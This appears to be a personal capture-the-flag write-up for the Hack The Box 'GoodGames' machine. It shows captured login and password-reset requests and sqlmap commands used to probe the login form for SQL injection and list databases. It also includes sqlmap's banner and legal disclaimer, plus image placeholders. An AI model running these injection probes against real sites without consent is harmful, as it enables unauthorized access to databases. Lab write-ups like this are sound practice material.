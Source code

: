 
```
POST /forgot-password HTTP/1.1
Host: goodgames.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 27
Origin: http://goodgames.htb
Connection: close
Referer: http://goodgames.htb/forgot-password
Priority: u=0

Email=admin%40goodgames.htb
```

![[Pasted image 20241107154537.png]]![[Pasted image 20241107154552.png]]

The key was to try to perform some sql injection to access the admin user. 

POST /login HTTP/1.1
Host: goodgames.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 41
Origin: http://goodgames.htb
Connection: close
Referer: http://goodgames.htb/signup
Upgrade-Insecure-Requests: 1
Priority: u=0, i

email=admin%40goodgames.htb&password=PASS

The key here is using sqlmap to discover potential sql-injections. To do so, identify some part of the code where a sql query may be made (login, forms, dashboards, ...). Check the post being made and copy the url and data to perform the post and go for:
```
sqlmap --url=http://goodgames.htb/login --data="email=admin%40goodgames.htb&password=PASS" --banner 
```

After passing to sqlmap the url with the `/login` termination and the --data `email=admin@goodgames.htb`, the username `main_admin@l` is shown.

We can run also `sqlmap --dbs -r file.req` to obtain the name of the existing databases.

```
Ξ crest_crt/goodgames → nmap -sV --script=nfs-showmount remote.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2024-11-07 18:28 CET

↑130 crest_crt/goodgames → sqlmap --dbs -r req.req
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.4.4#stable}
|_ -| . [)]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

```